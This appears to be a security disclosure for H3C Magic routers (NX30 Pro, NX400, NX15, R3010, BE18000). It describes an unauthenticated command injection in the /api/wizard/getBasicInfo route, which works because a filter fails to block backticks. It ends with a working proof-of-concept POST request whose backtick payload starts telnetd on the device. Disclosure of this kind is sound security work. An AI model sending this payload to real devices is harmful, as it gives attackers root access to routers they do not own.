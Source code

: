 # Information

**Vendor of the products:** H3C Technologies Co., Ltd.

**Vendor's website:** https://www.h3c.com/

**Reported by:** Zhao Jiang Ting(sta8r9@163.com)

**Affected products:** H3C Magic NX30 Pro\H3C NX400\H3C NX15\H3C R3010\H3C BE18000

**Affected firmware version:** <=V100R014 

**Firmware download address:** [H3C NX15V100R014](https://www.h3c.com/cn/d_202409/2263952_30005_0.htm)

# Overview

In the `H3C Magic` series products, `H3C Magic NX30 Pro` and `H3C NX400`and H3C NX15  and H3C R3010 and H3C BE18000 allow an attacker to send a specially crafted `POST` request to the `/api/wizard/getBasicInfo` route without authorization, enabling remote code execution with the highest privileges.



# Vulnerability details

When the route is `/wizard/getBasicInfo`, it can enter its handler function.

![image-20250317230331464](https://github-tupian.oss-cn-beijing.aliyuncs.com/20250317232620737.png)

`v14` is user-controllable. Although the `FCGI_CheckStringIfContainsSemicolon` function is used to filter dangerous characters, it fails to filter backticks, leading to command injection.

![image-20250314113946900](https://github-tupian.oss-cn-beijing.aliyuncs.com/20250317232620671.png)



# POC

```
POST /api/wizard/getBasicInfo HTTP/1.1
Host: 192.168.124.1
Content-Length: 11
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.124.1
Referer: http://192.168.124.1/home
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

'`telnetd`'
```

